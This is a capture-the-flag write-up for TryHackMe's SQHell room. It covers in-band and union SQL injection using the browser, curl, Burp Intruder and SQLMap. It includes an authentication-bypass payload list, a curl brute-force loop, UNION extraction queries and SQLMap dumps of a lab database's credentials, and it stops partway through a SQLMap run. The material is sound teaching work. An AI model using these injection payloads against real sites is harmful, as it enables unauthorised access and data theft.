## Machine Information


SQHell is a medium difficulty room on TryHackMe. Instead of the usual capture the flag style experience this room is designed to help you develop your SQL injection skills. There are five flags to capture, and each requires a different type of SQLi to retrieve it. Areas covered are in-band, out-of-band and blind. I show you different ways for each type including browser, Curl, Burp and SQLMap methods.

<!--more-->

Skills required are basic SQL injection knowledge and understanding of the different types. Skills gained are ways to exploit the five most common types of vulnerabilities using a variety of methods.

| Details |  |
| --- | --- |
| Hosting Site | [TryHackMe](https://tryhackme.com/) |
| Link To Machine | [THM - Medium - SQHell](https://tryhackme.com/room/sqhell) |
| Machine Release Date | 7th April 2021 |
| Date I Completed It | 21st June 2021 |
| Distribution Used | Kali 2021.1 – [Release Info](https://www.kali.org/blog/kali-linux-2021-1-release) |

## SQL Injection Info

Looking at the room description we're told specifically to find five different flags using various types SQL injection:

```text
There are 5 flags to find but you have to defeat the different SQL injection types.
Hint: Unless displayed on the page the flags are stored in the flag table in the flag column.
```

There are a ton of great resources out there on the internet to help with SQLi. A few good ones that have helped me are [this](https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic_en.md), and [this](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet), which both have lots of information and examples. There's also this [cheatsheet](https://cheatography.com/binca/cheat-sheets/sql-injection) which is nicely laid out, and [this](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet) one which has a good list of boolean based examples to try. Finally [this](https://www.acunetix.com/websitesecurity/sql-injection2/) article is a good introduction to the five basic type of SQL injection.

In real life we need to use different tools depending on the scenario. So for this room I'm going to cover the flags using some or all of these methods for each:

```text
Browser (FireFox)
Curl
BurpSuite
SQLMap
```

For BurpSuite I'm using FoxyProxy to redirect my browser to it. Here's the config needed in case you haven't got it set up:



## Initial Access

First let's add the server IP to our hosts file:

```text
┌──(root💀kali)-[~/thm/internal]
└─# echo 10.10.164.142 sqhell.thm >> /etc/hosts
```

Now we can have a look at the website:



We have a simple static html based website with five areas for us to exploit. Let's start on the first flag.

## Flag 1 - In-Band/Error Based - Browser Method

The first flag is the easiest, start by clicking on the Login button which takes us here:



We have username and password boxes, it's safe to assume we'll be doing a simple sql injection authentication bypass technique here.

I tried a few different ones from the cheatsheet mentioned above, this was the one that worked for me:

```text
admin' or '1'='1
```

Simply enter that in the Username field and press Login:



We are taken to another page which reveals the first flag:


## Flag 1 - In-Band/Error Based - Curl Method

We can also do this using curl, with the same authentication bypass technique. To automate the process of finding which one works I copied the examples from the cheatsheet [here](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet) to a file:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# cat bypass.txt
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
<SNIP>
```

Then used a simple loop in BASH to read each line and try it against the website:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s' "$p"; curl -s -d "username=$p" -d "password=" http://sqhell.thm/login | grep THM; printf "\n"
done < bypass.txt

or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #                            <p>THM{FLAG1:<HIDDEN>}</p>
admin'/*
admin' or '1'='1                    <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'--
admin' or '1'='1'#                  <p>THM{FLAG1:<HIDDEN>}</p>
admin' or '1'='1'/*
admin'or 1=1 or ''='                <p>THM{FLAG1:<HIDDEN>}</p>
admin' or 1=1
admin' or 1=1--
admin' or 1=1#                      <p>THM{FLAG1:<HIDDEN>}</p>
<SNIP>
```

As you can see quite a few different ones worked.

## Flag 1 - In-Band/Error Based - Burp Method

We can use Burp to intercept the browser request. First make sure you have FoxyProxy on and set to use Burp, then use anything for the username:



With Intercept set to On in Burp, when you click the Login button in your browser it gets redirected and caught:



Right click anywhere on the text and chose Send to Intruder. Check the last line has something within $ set against the username field, this is the variable that Burp will replace with our word list:



Switch to the Payloads tab and load a list of bypass techniques to try. I used the same file I'd copied them in to for the above curl method:



Click the Start Attack button and wait for burp to try everything from your list. Looking at the results you'll see a few lines with a smaller length to the others. If you switch to the response tab you can see these are the responses containing our flag:



## Flag 1 - In-Band/Error Based - SQLMap Method

The last method to look at is arguably the easiest. Once you know how to use SQLMap it makes the process of discovery and enumeration much easier. If we pretend we don't know the login page is vulnerable then let's follow the process we could use to exploit the page. [This](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) is a useful post on using SQLMap for SQLi.

First we run an initial scan to see what SQLMap can discover about the database behind the logon page:

```text
┌──(root💀kali)-[/home/kali/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --data "username=admin&password=admin"
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:54:26 /2021-06-08/
[22:54:26] [INFO] testing connection to the target URL
[22:54:26] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:54:26] [INFO] testing if the target URL content is stable
[22:54:27] [INFO] target URL content is stable
[22:54:27] [INFO] testing if POST parameter 'username' is dynamic
[22:54:27] [WARNING] POST parameter 'username' does not appear to be dynamic
[22:54:27] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[22:54:27] [INFO] testing for SQL injection on POST parameter 'username'
[22:54:27] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:54:27] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:54:27] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:54:27] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:54:28] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:54:28] [INFO] testing 'Generic inline queries'
[22:54:28] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:54:28] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:54:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:54:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:54:39] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:55:04] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:55:04] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:55:05] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[22:55:22] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 95 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))NuAN) AND 'ofyh'='ofyh&password=admin
---
[22:55:43] [INFO] the back-end DBMS is MySQL
[22:55:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:55:43] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:55:43 /2021-06-08/
```

There's a lot of information, the key point is:

```text
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable.
```

With the information gathered we can tell SQLMap to use the username and password fields, set the database to mysql, and dump the databases it can find:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql --dbs --threads 10
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.5#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|_|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:32:24 /2021-06-09/
[22:32:24] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:32:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:32:25] [INFO] testing MySQL
[22:32:34] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:32:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:32:45] [INFO] adjusting time delay to 1 second due to good response times
[22:32:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:32:45] [INFO] fetching database names
[22:32:45] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:32:45] [INFO] resumed: 2
[22:32:45] [INFO] resumed: information_schema
[22:32:45] [INFO] resumed: sqhell_2
available databases [2]:
[*] information_schema
[*] sqhell_2
[22:32:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:32:45 /2021-06-09/
```

Again, a lot of information but the important part is the database it found:

```text
[*] sqhell_2
```

Next we can ask SQLMap to dump the contents of that database:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql -D sqhell_2 --dump-all --threads 10
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:37:42 /2021-06-09/
[22:37:42] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:37:42] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:37:43] [INFO] testing MySQL
[22:37:43] [INFO] confirming MySQL
[22:37:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:37:43] [INFO] fetching tables for database: 'sqhell_2'
[22:37:43] [INFO] fetching number of tables for database 'sqhell_2'
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:37:44] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[22:37:45] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:37:53] [INFO] retrieved: 
[22:38:03] [INFO] adjusting time delay to 1 second due to good response times
[22:38:17] [INFO] fetching columns for table 'users' in database 'sqhell_2'
[22:38:17] [INFO] retrieved: 3
[22:38:21] [INFO] retrieved: id
[22:38:27] [INFO] retrieved: username
[22:38:52] [INFO] retrieved: password
[22:39:21] [INFO] fetching entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] fetching number of entries for table 'users' in database 'sqhell_2'
[22:39:21] [INFO] retrieved: 1
[22:39:23] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
[22:39:26] [INFO] retrieved: icantrememberthispasswordcanyou
[22:41:05] [INFO] retrieved: admin
Database: sqhell_2
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
[22:41:21] [INFO] table 'sqhell_2.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_2/users.csv'
[22:41:21] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:21 /2021-06-09/
```

With the password found for the admin user we can either login in via the browser or use curl again to get the flag:

```text
┌──(root💀kali)-[/home/kali/sqhell]
└─$ curl -s -d "username=admin" -d "password=icantrememberthispasswordcanyou" http://sqhell.thm/login
<!DOCTYPE html>
<html lang="en">
<SNIP
<div class="container" style="margin-top:20px">
    <h1 class="text-center">Logged In</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <form method="post">
                <div class="panel panel-default" style="margin-top:50px">
                    <div class="panel-heading">Logged In</div>
                    <div class="panel-body">
                        <div class="alert alert-success text-center" style="margin:10px">
                            <p>THM{FLAG1:<HIDDEN>}</p>
                        </div>
                    </div>
                </div>
            </form>
        </div>
    </div>
</div>
</body>
</html>
```

Ok, that was four different ways to get flag 1. Let's move on to the next flag.

## Flag 5 - In-Band/Union - Browser Method

The next easiest flag is number five. For this one we'll be using parameter tampering and a UNION based exploit. I did another TryHackMe room called Jurassic Park where I used the same techniques as follows, you can see that post [here.](https://pencer.io/ctf/ctf-thm-jurassic-park). There's also helpful articles [here](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example) and [here](https://book.hacktricks.xyz/pentesting-web/sql-injection) that are worth a read.

First let's see what we have:


We're looking at one of the posts and can see it has a parameter on the end of the URL, in this case it's ID=1. There's lots of ways to check if this is vulnerable, probably the easiest is to add a ' on the end:

]

It says there's an error in our syntax, which tells us our extra character on the end wasn't removed. We could also do something simple like AND 1=1:



As before we can see the statement was evaluated with our extra part on the end. In this instance AND 1=1 is true so the page appears as normal. Now we know it's vulnerable we can start to dig deeper.

First we want to know how many columns are in the table. We start at 1 and add columns until we get an error:



So here I did ORDER BY 1 then ORDER BY 1,2 and so on until I got to 5. The error at that point tells us there are four columns. Next we want to see which of those columns are useable:

```text
http://sqhell.thm/post?id=99 union all select 1,2,3,4
```



The UNION ALL statement is used to show us which column appears where on the page. We want the output to be visible, otherwise we won't be able to see the data we retrieve. We can see column three is the main section of the page, so plenty of room for our output. We'll use that one for all our subsequent commands.

Let's get the database name:

```text
http://sqhell.thm/post?id=99 union all select 1,2,database(),4
```



Now we want the tables in the database:

```text
http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()
```



Finally we see the tables in the database, flag sounds like the one we're looking for. Let's have a look at the contents of it:

```text
http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag
```



We have the flag. Let's move on to a different method.

## Flag 5 - In-Band/Union - Curl Method

I went in to detail on the last flag on using curl instead of the browser. If you can use a browser you would because it's easier, but in case it's not possible here's how to do this flag using curl.

First check how many columns we have:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4"
Post not found
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 ORDER BY 1,2,3,4,5"
Unknown column '5' in 'order clause'
```

We have four columns, as before we check to see which one is useable to display the data we retrieve:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,3,4" | grep -A 1 panel-body
                <div class="panel-body">
                    3                </div>
```

I use grep to filter the output down to just the body of the response. We see column three is the one to use. Let's find the database name:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union all select 1,2,database(),4" | grep -A 1 panel-body 
                <div class="panel-body">
                    sqhell_5                </div>
```

Now find the tables in it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database()" | grep -A 1 panel-body
                <div class="panel-body">
                    flag,posts,users                </div>
```

Then get the flag from the table:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -s "http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag" | grep -A 1 panel-body
                <div class="panel-body">
                    THM{FLAG5:<HIDDEN>}                </div>
```

## Flag 5 - In-Band/Union - SQLMap Method

Moving on to SQLMap and like flag 1, this is pretty simple. First check for the post page parameter for vulnerability and find any databases:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbs --dbms=mysql --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:41:33 /2021-06-10/
[22:41:33] [INFO] testing connection to the target URL
[22:41:33] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:41:33] [INFO] testing if the target URL content is stable
[22:41:33] [INFO] target URL content is stable
[22:41:33] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:41:33] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:41:33] [INFO] testing for SQL injection on GET parameter 'id'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:41:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:41:34] [WARNING] reflective value(s) found and filtering out
[22:41:35] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="View")
[22:41:35] [INFO] testing 'Generic inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[22:41:35] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[22:41:35] [INFO] GET parameter 'id' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable 
[22:41:35] [INFO] testing 'MySQL inline queries'
[22:41:35] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:41:35] [WARNING] time-based comparison requires larger statistical model, please wait................ (done)
